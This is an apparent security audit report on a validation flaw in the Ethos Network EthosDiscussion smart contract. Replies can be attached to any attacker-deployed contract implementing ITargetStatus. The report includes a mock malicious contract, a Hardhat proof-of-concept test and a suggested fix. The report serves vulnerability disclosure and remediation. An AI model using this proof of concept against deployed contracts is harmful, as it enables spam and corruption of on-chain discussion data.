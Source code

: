 Active Taffy Hornet

Medium

# `EthosDiscussion::_checkIfTargetExistsAndAllowed` does not sufficiently checks if the target contract is from ethos contracts

### Summary

The [`EthosDiscussion::_checkIfTargetExistsAndAllowed`](https://github.com/sherlock-audit/2024-10-ethos-network/blob/main/ethos/packages/contracts/contracts/EthosDiscussion.sol#L299) will allow anyone to use their own contract as `target` contract given they implement the [`ITargetStatus.sol`](https://github.com/sherlock-audit/2024-10-ethos-network/blob/main/ethos/packages/contracts/contracts/interfaces/ITargetStatus.sol) interface which would lead the unwanted side effects such as increase of `replyCount`, `Reply` creation,  event emission and replying to non-existent items

### Root Cause

The [`EthosDiscussion::_checkIfTargetExistsAndAllowed`](https://github.com/sherlock-audit/2024-10-ethos-network/blob/main/ethos/packages/contracts/contracts/EthosDiscussion.sol#L299) lacks checks to verify if the target contract is valid.

```solidity
  function _checkIfTargetExistsAndAllowed(address targetContract, uint256 targetId) private view {
@>  (bool exists, ) = ITargetStatus(targetContract).targetExistsAndAllowedForId(targetId); // @audit - no valid targetContract check as well as it unlocks the potential of re-entrancy.

    if (!exists) {
      revert TargetNotFound(targetContract, targetId);
    }
  }
 ```

The developer docs in `EthosDiscussion` contract state:
```solidity
@dev The EthosDiscussion contract enables users to leave text-based comments on virtually any activity item within the network.
These include vouches, attestations, reviews, profiles, or even other comments. Comments can be viewed and created through the Ethos app.
 ```
Which contradicts the intended behaviour.

### Internal pre-conditions

1. Attacker needs to have a valid profile.

### External pre-conditions

1. Attacker needs to deploy a contract of his own which implements the [`ITargetStatus.sol`](https://github.com/sherlock-audit/2024-10-ethos-network/blob/main/ethos/packages/contracts/contracts/interfaces/ITargetStatus.sol) interface

### Attack Path

1. Attacker will call the [`addReply`](https://github.com/sherlock-audit/2024-10-ethos-network/blob/main/ethos/packages/contracts/contracts/EthosDiscussion.sol#L105) function with a `targetId` and `targetContract` of his own.

### Impact

This leads to unwanted side effects such as increase of `replyCount`, `Reply` creation as well as event emission on actions which are potentially being made outside of the intended Ethos contracts.
Also allows to add reply to non-existent items.

### PoC

The contract `MaliciousTargetContract.sol` given below was added inside the `contracts/mocks` 

// File: MaliciousTargetControl.sol
```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.26;

import { ITargetStatus } from "./../interfaces/ITargetStatus.sol";

contract MaliciousTargetContract is ITargetStatus {

    // Ensuring we comply with the ITargetStatus
    function targetExistsAndAllowedForId(
        uint256 _targetId
    ) external view returns (bool exists, bool allowed) {

        return (true, true);
    }

}
```
In the file [`EthosDiscussion.test.ts`](https://github.com/sherlock-audit/2024-10-ethos-network/blob/main/ethos/packages/contracts/test/EthosDiscussion.test.ts) add the below line in the `deployFixture` function
```javascript
    const maliciousTargetContract = await ethers.deployContract('MaliciousTargetContract', []);
```
and then proceed to export it at the end.
```javascript
    return {
     // rest of the exports
      maliciousTargetContract
    };
```
Add the following test case:
```javascript
  describe('addReply', () => {

    // Rest of the test cases

    it('should add reply to a contract outside of Ethos ecosystem', async () => {
      const {
        ethosProfile,
        maliciousTargetContract,
        COMMENTER_0,
        OWNER,
        ethosDiscussion,
      } = await loadFixture(deployFixture);

      // add reply
      await ethosProfile.connect(OWNER).inviteAddress(COMMENTER_0.address);
      await ethosProfile.connect(COMMENTER_0).createProfile(1);
      await expect(
        ethosDiscussion
          .connect(COMMENTER_0)
          .addReply(maliciousTargetContract, 0, defaultReplyContent, defaultReplyMetadata),
      )
        .to.emit(ethosDiscussion, 'ReplyAdded')
      
      expect(await ethosDiscussion.replyCount()).to.equal(1);

    })
  });
```
 This test case would pass proving the vulnerability.

### Mitigation

Consider adding a `isValidTarget` modifier similar to given below:
```solidity
  modifier isValidTarget(address target) {
    if (!contractAddressManager.checkIsEthosContract(target)) {
      revert InvalidTargetContract(target);
    }
    _;
  }
```
